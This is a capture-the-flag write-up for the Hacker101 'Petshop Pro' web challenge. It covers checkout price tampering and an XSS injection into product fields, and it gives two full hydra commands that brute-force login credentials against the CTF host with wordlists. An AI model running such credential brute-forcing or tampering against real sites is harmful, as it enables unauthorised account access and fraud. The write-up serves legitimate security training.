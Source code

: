 ```yaml
---
layout: post
title:  "Petshop Pro"
date:   2025-04-18 14:00:00 -0400
categories: HACKERONE-ctf web easy
tags: hackerone CTF writeup XSS hydra 
---
```


### CHALLENGE HINT
![](assets/img/hackerone/petshop-pro/1.png)

### Flag0
Read the hint, we see vulnerability at `check out` page, let add kitten and puppy in our cart and check out. Inspect it and change the value of price to 0.
![](assets/img/hackerone/petshop-pro/2.png)

### Flag1
Use `FUZZING` to find entrypoint and brute force credential.
![](assets/img/hackerone/petshop-pro/3.png)
![](assets/img/hackerone/petshop-pro/4.png)

Well, it took me lots of time to find the user name by `Turbo` in `BurpSuite`. We can also use `Hydra` to crack it.
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt -p 'asd' f1230b94c6dbbc207a455a3c6414a0fb.ctf.hacker101.com https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid username" -t 64 -f
```
We have `username`, now we are looking for the `password`
```bash
hydra -l [username] -P rockyou.txt f1230b94c6dbbc207a455a3c6414a0fb.ctf.hacker101.com https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid password" -t 64 -f
```
### Flag2
We inject `XSS` payload to `Edit page` at `Name` and `Description`, then go to check out!
